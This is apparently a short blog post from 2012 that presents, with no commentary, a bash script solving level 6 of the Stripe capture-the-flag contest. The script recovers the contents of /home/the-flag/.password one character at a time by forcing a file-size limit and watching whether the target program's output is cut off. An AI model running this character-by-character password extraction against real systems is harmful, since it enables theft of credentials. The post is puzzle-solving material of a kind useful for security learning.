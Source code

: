 ```yaml
---
layout: post
title: "level06 stripe ctf"
date: 2012-02-29 10:05:46
tags: ctf
---
```


<p>
{% highlight bash %}
#!/usr/bin/env bash

ulimit -f 1 # set file size limit to 1024 bytes

s=""
while true; do 
  for ((i=32; i < 127; i++)); do
    rm f o
    c=$(ruby -e "print ${i}.chr")
    t="${s}${c}..."
    echo "${t}"

    ruby -e "print 'A' * (1024-33-${#t}+3)" > f;
    /levels/level06 /home/the-flag/.password "${t}" 2>>f 1>o;

    sleep 0.1 # INCREASE LIBERALLY IF FALSE POSITIVES
   
    if [ ! -s o ]; then # if file o is empty
      s="${s}${c}"
      echo -n $c
      break
    fi
  done
done
{% endhighlight %}
</p>
